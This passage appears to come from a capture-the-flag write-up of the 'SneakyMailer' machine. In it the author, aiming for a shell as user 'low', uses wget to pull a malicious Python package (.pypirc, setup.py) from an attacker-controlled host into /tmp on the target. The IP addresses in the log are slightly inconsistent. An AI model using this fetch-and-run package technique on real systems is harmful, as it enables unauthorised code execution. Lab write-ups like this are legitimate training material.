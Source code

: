 <blockquote><p>id : 1000 belongs to user "Low" , the file will be executed twice</p></blockquote>
<ul><li>Developer will run it</li><li>Low will run it too to test it </li></ul>
  
<blockquote><p>So i want the shell as "low",let`s nc and upload the files to execute it</p></blockquote>
  
<pre>developer@sneakymailer:/tmp<span class="nv">$ </span>wget <span class="nt">-r</span> <span class="nt">--no-parent</span> http://10.10.17.16:8080/pypi-pkg                                                                                                                                  
&lt;get <span class="nt">-r</span> <span class="nt">--no-parent</span> http://10.10.17.16:8080/pypi-pkg                                                                                                                                                               
<span class="nt">--2020-07-16</span> 01:06:23--  http://10.10.17.16:8080/pypi-pkg                                                                                                                                                          
Connecting to 10.10.17.16:8080... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: /pypi-pkg/ <span class="o">[</span>following]
<span class="nt">--2020-07-16</span> 01:06:24--  http://10.10.17.16:8080/pypi-pkg/
Connecting to 10.10.17.16:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 294 <span class="o">[</span>text/html]
Saving to: ‘10.10.17.16:8080/pypi-pkg’

10.10.14.24:8080/py 100%[<span class="o">===================&gt;]</span>     294  <span class="nt">--</span>.-KB/s    <span class="k">in </span>0s      

2020-07-16 01:06:25 <span class="o">(</span>23.1 MB/s<span class="o">)</span> - ‘10.10.17.16:8080/pypi-pkg’ saved <span class="o">[</span>294/294]


<span class="nt">--2020-07-16</span> 01:06:26--  http://10.10.17.16:8080/pypi-pkg/.pypirc
Connecting to 10.10.17.16:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 128 <span class="o">[</span>application/octet-stream]
Saving to: ‘10.10.17.16:8080/pypi-pkg/.pypirc’

10.10.14.24:8080/py 100%[<span class="o">===================&gt;]</span>     128  <span class="nt">--</span>.-KB/s    <span class="k">in </span>0s      

2020-07-16 01:06:26 <span class="o">(</span>10.6 MB/s<span class="o">)</span> - ‘10.10.17.16:8080/pypi-pkg/.pypirc’ saved <span class="o">[</span>128/128]


<span class="nt">--2020-07-16</span> 01:06:28--  http://10.10.17.16:8080/pypi-pkg/setup.py
Connecting to 10.10.17.16:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 480 <span class="o">[</span>text/plain]
Saving to: ‘10.10.14.24:8080/pypi-pkg/setup.py’

10.10.14.24:8080/py 100%[<span class="o">===================&gt;]</span>     480  <span class="nt">--</span>.-KB/s    <span class="k">in </span>0s      

2020-07-16 01:06:29 <span class="o">(</span>45.9 MB/s<span class="o">)</span> - ‘10.10.17.16:8080/pypi-pkg/setup.py’ saved <span class="o">[</span>480/480]
</pre>  
<pre>developer@sneakymailer:/tmp/10.10.14.24:8080<span class="nv">$ </span><span class="nb">ls
ls
</span>pypi-pkg
</pre>
<pre>developer@sneakymailer:/tmp/10.10.14.24:8080/pypi-pkg<span class="nv">$ </span><span class="nb">ls</span> <span class="nt">-a</span>
<span class="nb">ls</span> <span class="nt">-a</span>
<span class="nb">.</span>  ..  .pypirc  setup.py
</pre>
 